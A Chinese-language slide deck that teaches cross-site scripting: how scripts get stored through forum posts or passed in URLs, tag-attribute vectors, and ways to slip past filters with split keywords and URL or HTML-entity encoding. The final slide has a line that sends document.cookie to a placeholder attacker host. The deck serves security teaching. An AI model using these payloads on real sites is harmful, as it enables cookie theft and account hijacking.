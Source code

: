 [slide]
# XSS (Cross-site scripting) 
## 跨脚本攻击, 是一种代码注入方式(js,vb,css,flash等)

[slide]
# XSS 原理

[slide]
* 比如有个论坛，网站没有对用户的输入进行严格的限制, 使得攻击者可以将脚本插入到回复的帖子里，把脚本插入到数据库中。

```js
//comment 为:
<script type="text/javascript">
    alert('xss');
</script>
```

那么其他人打开该帖子网站时，根本无法察觉, 自己已经变成XSS’s victim。

[slide]
# 其他的注入方式
----
* 攻击者可以通过url的方式注入脚本信息。
```js
https://www.mysite.com?parms=<script>alert('xss');</script>
```
* 使用标签属性等方式来上传脚本进行攻击
```js
<table background="javascript:alert(/xss/)"></table>
<img src="javascript:alert('xss')">
```
* 回避检查的方式
```js
<img src="javas cript:
alert('xss')">
```

* 通过各种编码转换 (URL 编码, Unicode 编码, HTML 编码, ESCAPE 等) 来绕过检查
```js
<img%20src=%22javascript:alert('xss');%22>
<img src="javascrip&#116&#58alert(/xss/)">
```

[slide]
# XSS 能做什么？（危害）

----
* 通过document.cookie 获取用户的cookie信息，假冒用户进行登录  {:&.rollIn}
```js
window.location='http://attacker/?cookie='+document.cookie
```
